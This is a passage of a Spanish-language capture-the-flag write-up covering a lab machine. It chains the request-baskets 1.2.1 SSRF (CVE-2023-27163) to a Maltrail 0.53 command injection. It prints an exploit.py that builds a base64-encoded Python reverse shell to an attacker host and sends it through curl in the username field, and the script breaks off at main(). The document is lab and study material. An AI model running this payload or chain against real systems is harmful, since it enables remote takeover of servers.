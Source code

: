 ```bash
                        [Status: 302, Size: 27, Words: 2, Lines: 3, Duration: 161ms]
WEB                     [Status: 301, Size: 39, Words: 3, Lines: 3, Duration: 157ms]
```

Al visitar la URL [http://10.10.11.224:55555/web](http://10.10.11.224:55555/web), descubrimos que la aplicación se llama "[request-baskets](https://rbaskets.in/web)" y está en la versión 1.2.1.

```
Powered by request-baskets | Version: 1.2.1 
```

# Explotación
---
La versión 1.2.1 de request-baskets es vulnerable a un Server Side Request Forgery (SSRF) identificado por el [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163).

Para explotar la vulnerabilidad creamos una basket, modificamos la "Configuration Settings"

```
Forward URL: http://127.0.0.1:80
Proxy Response: true
```

Creamos una request

```bash
http://10.10.11.224:55555/<basket-name>
```

Ingresamos a la URL de la basket creada `http://<target-ip>:<port>/<basket>`, lo que nos redirige a la web en ejecución en el localhost del servidor en el puerto 80. Nos encontramos la aplicación [Maltrail](https://github.com/stamparm/maltrail/blob/master/README.md) en la versión 0.53, la cual es vulnerable a una ejecución remota de comandos.

```
Powered by Maltrail (v0.53)
```

Creamos un script con Python para ganar acceso al sistema

exploit.py
```python
import sys
import os
import base64
import argparse

def get_arguments():
    parser = argparse.ArgumentParser(description="Remote Code Execution - Maltrail v0.53")
    parser.add_argument("-lh", "--lhost", dest="lhost", help="Attacker IP (Ex: -lh 192.168.0.100)", required=True)
    parser.add_argument("-lp", "--lport", dest="lport", help="Listening port (Ex: -lport 1234)", required=True)
    parser.add_argument("-u", "--url", dest="url", help="Target URL (Ex: --url http://10.10.10.10:44444/rn2tm9i", required=True)
    args = parser.parse_args()
    return args.lhost, args.lport, args.url

def exec_cmd(lhost, lport, target_url):
    payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{lhost}",{lport}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1)
;os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    encoded_payload = base64.b64encode(payload.encode()).decode()
    command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    os.system(command)

def main():
```
